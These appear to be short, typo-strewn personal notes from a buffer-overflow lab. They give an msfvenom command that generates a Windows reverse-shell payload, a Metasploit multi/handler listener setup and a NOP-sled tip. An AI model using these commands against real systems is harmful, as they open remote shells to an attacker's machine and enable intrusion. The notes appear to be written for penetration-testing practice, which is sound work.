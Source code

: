 

625012AD
625012BA

```


generating shellcode with meterpreter: `msfvenom -p windows/shell_reverse_tcp LHOST<linops> LPORT=5555 -b '\x00' -f python	#doesnt need to be port 5555, just remember which one you used`

once you hav ethe payload ready to go:

1. create a listener
```
msfconsole
>> use multi/handler
>> show options
>> set payload windows/shell_reverse_tcp
>> set LHOST 0.0.0.0	#since you are opening a listener, the lhost is yourslef in the form of 0.0.0.0 - do not use localhost
>> set LPORT 5555
>> exploit
```



- make sure your script includes `buf += "\x90" * 20`





the 'type' command opens file in windows from terminal


```
